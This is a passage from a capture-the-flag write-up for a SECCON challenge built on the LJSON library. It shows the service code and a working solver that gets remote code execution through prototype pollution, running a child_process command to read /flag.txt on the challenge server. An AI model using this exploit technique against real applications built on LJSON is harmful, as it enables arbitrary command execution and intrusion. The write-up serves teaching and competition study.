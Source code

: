 ```javascript title="service.js"
const LJSON = require("ljson");
const lib = require("./lib.js");

const sequence0 = process.argv[2];
const n0 = parseInt(process.argv[3]);
const sequence1 = process.argv[4];
const n1 = parseInt(process.argv[5]);

console.log([
  LJSON.parseWithLib(lib, sequence0)({}, n0),
  LJSON.parseWithLib(lib, sequence1)({}, n1),
]);
```

This challenge differs from SaaS 1 in the following points:

- `lib` doesn't have the function `self`.
- For each request, `LJSON.parseWithLib` is executed twice.

### Solution

My solution is to gain RCE by Prototype Pollution.

```javascript title="solver/index.js"
/* snip */

// Inverse of https://github.com/MaiaVictor/LJSON/blob/0c06399baddc08ede6457a59505e188ec0828dab/LJSON.js#L397
const toNumber = (name) => {
  const alphabet = "abcdefghijklmnopqrstuvwxyz";
  let number = 0;
  for (const c of name.split("").reverse()) {
    number *= alphabet.length;
    number += alphabet.indexOf(c);
  }
  return number;
};

const code = 'require("child_process").execSync("cat /flag.txt").toString()';

// A source of Prototype Pollution
const evilSequence0 = LJSON.stringify(($, map, n) =>
  $("set", $("set", map, "__proto__", null), "polluted", toNumber("eval"))
);

// A sink of Prototype Pollution
const evilSequence1 = LJSON.stringify((a, b, c) => a(code)).replace(
  "a(",
  "polluted("
);

const params = new URLSearchParams({
  sequence0: evilSequence0,
  n0: 0,
  sequence1: evilSequence1,
  n1: 0,
});

console.log(params);

const main = async () => {
  const text = await (
    await fetch(`${SECCON_URL}/api/getValue?${params}`)
  ).text();
  console.log(text);
```

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/